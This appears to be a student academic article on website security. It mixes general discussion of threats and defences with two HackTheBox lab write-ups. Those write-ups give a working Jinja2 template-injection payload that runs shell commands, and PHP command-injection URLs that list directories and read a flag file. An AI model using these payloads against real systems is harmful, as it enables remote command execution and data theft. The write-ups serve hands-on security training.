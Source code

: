 # Website Security: Approaches and Challenges in Information System Protection

## Authors
- **Polychronis Varvaris**  
  International Hellenic University of Thessaloniki, Greece  
  Email: polihronisv@gmail.com
  
- **Konstantinos Georgiadis**  
  International Hellenic University of Thessaloniki, Greece  
  Email: kostas.georgiadisg@gmail.com
---

## 📝 Abstract

Website security is a critical factor in safeguarding information and users in the digital space. This academic article explores information systems security, focusing on website protection. Key challenges such as malware, DDoS attacks, and external breaches are discussed, along with approaches and techniques like cryptography, access control systems, and threat detection and response.

Additionally, best practices such as staff training, regular software updates, and monitoring vulnerabilities are presented. The article serves as a valuable source for IT professionals and researchers seeking to understand and apply effective website security practices.

---

## 🔑 Keywords
Website security, information protection, attacks and vulnerabilities, cryptography, access control systems, malware, threat detection, software updates, security best practices.

---

## 📌 Table of Contents
1. [Introduction](#1-introduction)  
2. [Major Security Issues in 2023](#2-major-security-issues-in-2023)  
3. [Social Implications](#3-social-implications)  
4. [Tools and Case Studies](#4-tools-and-case-studies)  
5. [Experiment A: Tamplated](#5-experiment-a-tamplated)  
6. [Experiment B: LoveTok](#6-experiment-b-lovetok)  
7. [Solutions](#7-solutions)  
8. [Future Work](#8-future-work)  
9. [Conclusion](#9-conclusion)

---

## 1. Introduction

As technology rapidly evolves, so do the challenges in securing information systems. IT security involves protecting data from unauthorized access, malicious use, loss, or destruction. It plays a foundational role in modern society, supporting businesses, governments, and individuals.

Failure to ensure adequate security can lead to privacy breaches, financial loss, or even national security threats. Users expect secure communication platforms, e-commerce sites, banking systems, and online services. Breaches can damage trust and have severe consequences for organizations.

---

## 2. Major Security Issues in 2023

Key problems in modern information system security include:

- **Malware**: Viruses, spyware, and ransomware that compromise data and privacy.
- **Software Vulnerabilities**: Weaknesses that can be exploited for unauthorized access.
- **Social Engineering**: Scams via emails or fake sites aimed at deceiving users.
- **Lack of Training**: Users unaware of basic cybersecurity principles pose risks.
- **Emerging Technologies**: IoT, AI, and autonomous systems introduce new threats.

---

## 3. Social Implications

Beyond technical issues, social aspects of website security matter too:

- **Personal Data Protection**: Users share private information on social platforms.
- **Abuse and Surveillance**: Harassment and unwanted monitoring are threats.
- **Anonymity & Transparency**: Platforms must offer privacy options and disclose data use.

---

## 4. Tools and Case Studies

We used [HackTheBox](https://www.hackthebox.com/), a platform for hands-on cybersecurity training. It provided vulnerable virtual machines to practice identifying and fixing vulnerabilities. The community also enabled sharing knowledge and interacting with others in the cybersecurity space.

---

## 5. Experiment A: *Tamplated*

**Objective**: Read the contents of the `flag` folder from `167.99.90.179:31306`.

### Process:
- Site runs on Flask + Jinja2 (Python-based).
- Using Wireshark, we found the server was `Werkzeug 1.0.1`.
- Jinja2 template injection is possible via the URL:

http://167.99.90.179:31306/{{7*7}} → displays "49"


### Exploit:
We injected a Jinja2 SSTI payload:
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}

This displayed the contents of flag.txt via an error message.
6. Experiment B: LoveTok

Objective: Retrieve contents of the flag folder from 134.209.180.248:31901.
Process:

    The site allows refresh with URL changes like:

http://134.209.180.248:31901/?format=r

Exploitation tested by passing malformed parameters.
Example:

?format=${phpinfo()}

Command injection using:

?format=${system($_GET[1])}&1=ls+/

Final successful command to read flag:

    ?format=${system($_GET[1])}&1=cat+/flagrDOll

7. Solutions

To combat these challenges, organizations should:

    Implement strong security systems.

    Provide user training and awareness programs.

    Monitor for evolving threats and patch vulnerabilities.

    Establish clear security policies and access control.

8. Future Work

Some potential future directions based on this research:

    User Education: Investigate tools and training to improve security awareness.

    Security Tools: Develop new protective technologies for web applications.

    Policy Design: Explore effective governance models for information security.

    AI in Security: Leverage machine learning for threat detection and prevention.

9. Conclusion

This project highlights the importance of securing websites and information systems. We explored both technical and social aspects of cybersecurity, conducted hands-on experiments using real-world scenarios, and proposed practical measures to enhance security. Constant vigilance and adaptability are essential in the evolving landscape of cyber threats.
